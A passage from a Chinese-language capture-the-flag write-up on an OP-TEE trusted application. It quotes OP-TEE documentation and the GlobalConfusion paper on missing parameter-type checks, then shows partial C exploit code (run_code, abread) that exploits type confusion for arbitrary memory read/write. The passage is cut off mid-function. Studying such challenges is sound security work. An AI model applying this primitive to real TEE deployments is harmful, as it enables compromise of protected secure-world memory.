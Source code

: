 此外，OP-TEE的[文档](https://optee.readthedocs.io/en/latest/building/trusted_applications.html#checking-ta-parameters)中提到，如果缺少对预期参数类型的验证可能会造成任意读写漏洞：

> [Checking TA parameters](https://optee.readthedocs.io/en/latest/building/trusted_applications.html#checking-ta-parameters)：
>
> Missing verification of expected parameter types may expose arbitrary read-and-write exploit primitives within the affected Trusted Application (TA), potentially leading to partial control over the TEE in the worst-case scenario. For more information, please refer to the [GlobalConfusion](https://hexhive.epfl.ch/publications/files/24SEC4.pdf) paper, which provides detailed insights into this issue.
>
> 缺少对预期参数类型的验证可能会暴露受影响的可信应用程序（TA）中的任意读写漏洞基元，在最坏的情况下可能导致对TEE的部分控制。有关更多信息，请参阅GlobalConfusion论文，该论文提供了对此问题的详细见解。
>
> [GlobalConfusion](https://hexhive.epfl.ch/publications/files/24SEC4.pdf)：
>
> Assuming an adversary notices the missing type check in any of the commands of any TA (usually there are many commands), it can have severe consequences as we can learn from our example echo-TA. In this case, an attacker can invoke the TA_ECHO_CMD_ECHO command and provide the type information used for any of the two used parameters to indicate a value type. Since the TA does not check its parameter types, but still interprets them as memref types, the attacker provided a and b values overlap with the buffer and size fields (in the 32-bit case) and, thus, the attacker has control over the two pointers within the virtual address space of the TA that can be read from or written to. 
>
> 假设对手注意到任何TA的任何命令中缺少类型检查（通常有许多命令），这可能会产生严重的后果，正如我们从示例回声TA中了解到的那样。在这种情况下，攻击者可以调用TA_ECHO_CMD_ECHO命令，并提供用于指示值类型的两个使用参数中的任何一个为value类型。由于TA不检查其参数类型，但仍将其解释为memref类型，攻击者提供的a和b值与缓冲区和大小字段重叠（在32位的情况下），因此，攻击者可以控制TA虚拟地址空间内可以读取或写入的两个指针。

`run_code_cmd`功能中确实没有对参数类型作校验，也就是说存在类型混淆漏洞。具体各种参数类型的区别见`OP-TEE CA&TA交互的参数类型`一节。

因此，我们可以直接将`input`参数声明为`TEEC_VALUE`类型传入已知地址指针，而TA会将该指针作为`TEEC_MEMREF_*`的`buffer`处理，从而实现任意地址读写。

任意地址读写demo：

```c {hide=true}
void run_code(TEEC_Session *p_sess, TEEC_Operation *op) {
    TEEC_Result res;
    uint32_t err_origin;

    res = TEEC_InvokeCommand(p_sess, TA_TRUST_ISSUES_CMD_RUN_CODE, op,
                 &err_origin);
    if (res != TEEC_SUCCESS)
        errx(1, "TEEC_InvokeCommand failed with code 0x%x origin 0x%x",
            res, err_origin);
    printf("[+] run_code_cmd: done!\n");
}

void abread(TEEC_Session *p_sess, uint32_t tgt, void *buf, size_t size) {
    TEEC_Operation op;

    char *code = (char *)calloc(size*3+1, sizeof(char));
    memset(code, ',', size);
    memset(code+size, '<', size);
    memset(code+size*2, '.', size);

    memset(&op, 0, sizeof(op));
    op.paramTypes = TEEC_PARAM_TYPES(TEEC_MEMREF_TEMP_INPUT, TEEC_VALUE_INOUT,
                     TEEC_MEMREF_TEMP_OUTPUT, TEEC_NONE);
    // param[0]: code
    // param[1]: input
    // param[2]: output
    op.params[0].tmpref.buffer = code;
    op.params[0].tmpref.size = size*3;
    op.params[1].value.a = tgt;
    op.params[1].value.b = size+1;
```